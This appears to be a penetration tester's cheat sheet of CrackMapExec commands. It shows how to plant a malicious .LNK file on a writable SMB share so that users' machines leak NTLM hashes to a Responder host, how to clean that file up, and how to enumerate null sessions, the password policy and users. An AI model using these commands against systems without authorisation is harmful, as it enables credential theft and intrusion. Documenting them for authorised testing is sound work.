 ```yaml
---
description: Examples of CrackMapExec commands that I use throughout penetration tests.
---
```


# CrackMapExec Examples

## Harvest NTLMv2/v1 credentials if you have write-access to a share.

Enumerate the hosts shares\
`crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] --shares`

Create a malicious .LNK file calling back to your Responder.py IP\
`crackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] -M slinky -o NAME=[SHARE] SERVER=[ResponderIP]`

After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file\
`rackmapexec smb [TARGET] -u [USERNAME] -p [PASSWORD] -M slinky -o NAME=[SHARE] SERVER=[ResponderIP] CLEANUP=True`

## Null Session Enumeration

Enumerate null sessions\
`cme smb [TARGETS] -u '' -p ''`

Enumerate password policy (domain controller)\
`cme smb [TARGET] --pass-pol`

Enumerate users (domain controller)\
`cme smb [TARGET] --users`

## References

* [Harvest\_NTLM\_with\_Slinky](https://twitter.com/mpgn\_x64/status/1453018750253424643)
* [Enumerate\_Null\_Sessions](https://mpgn.gitbook.io/crackmapexec/smb-protocol/enumeration/enumerate-null-sessions)
